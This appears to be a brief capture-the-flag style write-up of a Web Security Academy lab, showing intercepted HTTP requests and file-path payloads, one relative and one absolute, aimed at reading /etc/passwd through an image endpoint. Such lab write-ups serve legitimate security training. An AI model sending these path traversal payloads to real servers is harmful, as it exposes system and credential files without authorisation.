

---

- **Author:** sonyahack1
- **Date:** 01.05.2025

---

## Intercepting the request 

```html

GET /product?productId=1 HTTP/2
Host: 0aa500ee04d9cde1849865c50027001e.web-security-academy.net
Cookie: session=********************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa500ee04d9cde1849865c50027001e.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```
> vulnerability contains with the display of product **images**

> change request to **image**

```html

GET /image HTTP/2

```

> Response:

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

"Missing parameter 'filename'"

```

> if i try to get the passwd file with **Relative Path Traversal** i get an error **'No such file'**

```html

GET /image?filename=../../../../../../etc/passwd

```
> Response:

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"No such file"

```

> This happens because the server filters relative paths. Trying to use **' ../ '** will be blocked or truncated.
> But the server may allow the use of an absolute path from the root of the system.

> send the request with **'Absolute Path Traversal'**

```html

GET /image?filename=/etc/passwd

```

> Response:



> Lab solved:


